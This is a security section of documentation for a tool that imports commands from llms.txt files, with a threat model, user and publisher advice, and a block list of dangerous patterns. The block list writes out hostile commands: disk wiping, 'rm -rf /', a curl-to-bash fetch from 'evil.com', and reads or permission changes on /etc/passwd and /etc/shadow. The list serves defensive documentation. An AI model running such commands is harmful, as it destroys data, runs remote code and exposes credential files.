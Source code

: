 
## Security Considerations

### Threat Model

**Threats Addressed**:
1. **Malicious Command Injection**: Commands with shell expansion, pipes, or dangerous operations
2. **Deserialization Attacks**: YAML bombs, Python object deserialization
3. **Path Traversal**: Scripts accessing files outside project directory
4. **Man-in-the-Middle**: HTTP interception (mitigated by HTTPS enforcement)

**Threats NOT Addressed**:
- Social engineering (user trusts malicious source)
- Compromised trusted domains (domain whitelist bypass)
- Logic bombs (delayed malicious behavior in legitimate-looking scripts)

### Best Practices

#### For Users

1. **Always Use HTTPS**: Keep `--https-only` enabled (default)
2. **Trust Your Sources**: Only import from domains you control or trust
3. **Review Before Import**: Use `--preview-llms` first
4. **Check Backups**: Verify backup files exist before large imports
5. **Use Skip Strategy Initially**: Test with `--strategy skip` before `overwrite`

#### For Publishers

1. **Use HTTPS**: Host llms.txt on HTTPS-enabled servers
2. **Avoid Dangerous Commands**: No `rm`, `dd`, or shell expansion
3. **Use Relative Paths**: Git scripts should use relative paths
4. **Document Commands**: Add comments explaining action purpose
5. **Version Your llms.txt**: Include version/date in file header

### Dangerous Command Patterns

**Blocked Patterns** (Import will fail):

```bash
# File system destruction
rm -rf /
dd if=/dev/zero of=/dev/sda

# Command injection
$(curl evil.com | bash)
`whoami`
command1 | sh

# Path traversal
cd ../../../../etc
cat /etc/passwd

# Privilege escalation
sudo rm -rf /
chmod 777 /etc/shadow
```
